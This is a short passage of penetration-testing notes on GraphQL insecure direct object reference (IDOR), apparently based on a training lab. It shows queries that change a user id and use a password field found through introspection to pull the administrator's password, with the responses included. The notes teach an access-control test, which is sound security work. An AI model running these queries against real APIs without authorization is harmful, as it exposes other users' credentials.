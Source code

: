 [^3]: https://escape.tech/blog/pentest103/

## GraphQL IDOR

Testing query arguments is a good place to start. If the API uses arguments to access objects directly, it may be vulnerable to [Access control vulnerabilities](Access%20control%20vulnerabilities.md).

```graphql
# Example user query

query {
	getUser(id:2) {
		id
		username
	}
}

# Example product response

{
  "data": {
    "getUser": {
      "id": 2,
      "username": "wiener"
    }
  }
}

# Discovered with introscpetion that the getUser query also has a password field

OBJECT
User
id  !Int
username  !String
password  !String

# Requested the User object for id:1 (admin) and the corresponding password

query {
	getUser(id:1) {
		password
		id
		username
	}
}

{
  "data": {
    "getUser": {
      "password": "9k680yrexswi9hyaf8ln",
      "id": 1,
      "username": "administrator"
    }
  }
}
```


[^1]: https://escape.tech/blog/pentest101/
[^2]: https://escape.tech/blog/pentesting102/